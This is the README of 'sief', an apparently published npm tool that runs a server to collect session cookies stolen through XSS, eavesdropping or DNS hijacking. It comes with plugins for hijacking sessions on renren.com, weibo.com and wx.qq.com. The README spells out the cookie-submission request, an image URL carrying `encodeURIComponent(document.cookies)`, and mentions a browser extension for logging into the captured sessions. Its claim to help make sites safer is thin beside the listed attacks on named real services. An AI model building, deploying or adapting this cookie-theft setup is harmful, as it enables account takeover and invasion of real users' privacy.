 sief
=============

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to hijack sessions, and also a project to make your site safer, depending on the way you use it.

## Philosophy

* Do **NOT** steal cookies, only accept cookies from everywhere(xss, network eavsdropping, dns hijacking…)
* Focus on the exploitation of session hijacking.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence.
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com.
* Write your own plugins to do other attacks you desired. Plugins are loaded/reloaded/unloaded when added/changed/removed automatically, no need to restart.
* View real-time cookie submissions and login to those hijacked sessions directly in browser with [Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension).
* Ignore cookie submissions if the same one is received before, during a specified period of time, to protect your server.

## Install

1. Install PhantomJS

2. Install sief

   `npm install sief -g`

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

    GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.